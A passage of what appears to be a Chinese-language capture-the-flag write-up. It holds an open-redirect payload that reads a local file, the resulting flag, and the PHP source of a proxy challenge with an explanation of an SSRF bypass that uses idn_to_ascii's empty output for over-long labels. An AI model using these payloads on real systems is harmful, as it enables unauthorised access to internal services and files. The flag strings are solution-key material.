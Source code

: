 payload: `http://previewsite/logout?next=file:///flag`

`CGGC{open_redirect_to_your_local_file_2893hrgiubf3wq1}`

### proxy

source:

```php
<?php

function proxy($service) {
    // $service = "switchrange";
    // $service = "previewsite";
    // $service = "越獄";
    $requestUri = $_SERVER['REQUEST_URI'];
    $parsedUrl = parse_url($requestUri);

    $port = 80;
    if (isset($_GET['port'])) {
        $port = (int)$_GET['port'];
    } else if ($_COOKIE["port"]) {
        $port = (int)$_COOKIE['port'];
    }
    setcookie("service", $service);
    setcookie("port", $port);
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
    $filter = '!$%^&*()=+[]{}|;\'",<>?_-/#:.\\@';
    $fixeddomain = trim(trim($service, $filter).".cggc.chummy.tw:".$port, $filter);
    $fixeddomain = idn_to_ascii($fixeddomain);
    $fixeddomain = preg_replace('/[^0-9a-zA-Z-.:_]/', '', $fixeddomain);
    curl_setopt($ch, CURLOPT_URL, 'http://'.$fixeddomain.$parsedUrl['path'].'?'.$_SERVER['QUERY_STRING']);
    curl_exec($ch);
    curl_close($ch);
}

if (!isset($_GET['service']) && !isset($_COOKIE["service"])) {
    highlight_file(__FILE__);
} else if (isset($_GET['service'])) {
    proxy($_GET['service']);
} else {
    proxy($_COOKIE["service"]);
}
```

在 args 中可以設定 service, port 等做 SSRF，但 service 只能指定 `cggc.chummy.tw` 底下的 subdomain

漏洞的點在 `idn_to_ascii` 函式，實際測試發現超過 url 大小 (63 字元) 時回傳值會是空的，因此就會變成存取 `http:///<path>?<querystring>`

設定 path 為要存取的網站，即可 SSRF

payload: `/secretweb/flag?service=<一個很長的字串>`
